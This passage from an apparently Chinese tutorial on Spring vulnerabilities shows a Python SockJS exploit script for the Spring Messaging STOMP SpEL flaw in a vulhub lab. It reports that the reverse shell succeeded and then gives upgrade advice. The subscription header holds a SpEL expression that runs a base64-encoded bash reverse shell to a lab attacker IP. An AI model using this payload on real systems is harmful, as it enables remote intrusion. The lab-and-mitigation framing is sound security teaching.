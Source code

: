         def send(self, command, headers, body=''):  
            data = [command.upper(), '\n']  
      
            data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))  
              
            data.append('\n\n')  
            data.append(body)  
            data.append('\x00')  
            data = json.dumps([''.join(data)])  
      
            response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)  
            if response.status_code != 204:  
                logging.info(f"send '{command}' data error.")  
            else:  
                logging.info(f"send '{command}' data success.")  
      
        def __del__(self):  
            self.session.close()  
      
      
    sockjs = SockJS('http://192.168.173.144:8080/gs-guide-websocket')  
    sockjs.start()  
    time.sleep(1)  
      
    sockjs.send('connect', {  
        'accept-version': '1.1,1.0',  
        'heart-beat': '10000,10000'  
    })  
    sockjs.send('subscribe', {  
        'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}')",  
        'id': 'sub-0',  
        'destination': '/topic/greetings'  
    })  
      
    data = json.dumps({'name': 'vulhub'})  
    sockjs.send('send', {  
        'content-length': len(data),  
        'destination': '/app/hello'  
    }, data)  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083102.png)image-20210829220649484![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083103.png)image-20210829220854352

成功反弹。

#### 安全防护

1.请升级Spring框架到最新版本(5.0.5、4.3.15及以上版本);

2.如果你在用 SpringBoot，请升级到最新版本(2.0.1及以上版本);

对于底层原理进行分析的文章可以参考这一篇：https://paper.seebug.org/562/

### 5.Spring Data Commons远程命令执行漏洞(CVE-2018-1273)

#### 漏洞简介
